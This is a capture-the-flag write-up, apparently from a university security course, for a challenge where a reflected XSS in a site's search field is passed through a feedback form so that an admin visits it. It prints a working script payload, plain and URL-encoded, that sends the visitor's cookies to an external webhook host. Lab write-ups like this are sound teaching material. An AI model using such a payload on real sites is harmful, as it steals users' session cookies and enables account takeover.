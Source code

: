 # Challenge `My favourite cookies` writeup

- Vulnerability: XSS
- Where: In the feedback form's link field
- Impact: It allows the retrieval of a remote user's (in this case, the admin's) cookies

## Finding the vulnerability / Steps to reproduce

1. The first step to retrieve the admin's cookie is setting up a web server (for example, in [Webhook](https://webhook.site/<id>)) to intercept incoming requests.
2. A first request shows that the provided link is then accessed, leaving an opportunity to inject a custom script into our link, as long as the endpoint belongs to one of the website's.
3. After testing in the search bar with a script that redirects the content of the accessing user's cookie to our website (`<script>window.location.href='https://webhook.site/6fe0e568-0fad-4d39-b043-2510c31a899c?cookie='+document.cookie</script>`), that URL (`http://mustard.stt.rnl.tecnico.ulisboa.pt:23251/?search=%3Cscript%3Ewindow.location.href%3D%27https%3A%2F%2Fwebhook.site%2F<id>%3Fcookie%3D%27%2Bdocument.cookie%3B%3C%2Fscript%3E`) can then be used in the feedback form.
4. As soon as the admin enters the link, the request is intercepted by our web server, thus revealing its cookie (`SSof{This_is_my_very_secret_secret`).